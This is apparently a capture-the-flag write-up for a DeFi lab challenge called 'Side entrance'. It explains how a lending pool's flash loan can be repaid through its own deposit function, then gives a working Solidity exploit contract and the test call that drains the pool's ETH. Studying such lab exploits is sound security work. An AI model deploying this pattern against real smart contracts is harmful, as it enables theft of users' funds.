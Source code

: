# Challenge #4 - Side entrance    
 A surprisingly simple lending pool allows anyone to deposit ETH, and withdraw it at any point in time.

 This very simple lending pool has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.

 You must take all ETH from the lending pool. 

## Exploit 
In this challenge we can increase the amount of our balance in pool executing a 
flashloan and making a deposit with that money. This way, we increase our ``balance`` 
without really using any of our ETH and we can withdraw that to the attacker's account 
later.  

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

interface ILendingPool {
	function deposit() external payable;
	function withdraw() external;
	function flashLoan(uint256 amount) external;
}

contract Exploit {
	address attacker;
	ILendingPool pool;
	event Received(address, uint);

	function exec(address _contract) external {
		attacker = msg.sender;
		pool = ILendingPool(_contract);
		pool.flashLoan(1000 ether);
	}

	function withdraw() external {
		pool.withdraw();
		payable(attacker).transfer(address(this).balance);	
	}

	fallback() external payable {
		pool.deposit{value: msg.value}();
	}
	receive() external payable {
		emit Received(msg.sender, msg.value);
	}
}
```
Execution: 
```js
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
		await this.exploit.exec(this.pool.address);
		await this.exploit.withdraw();
    });
```

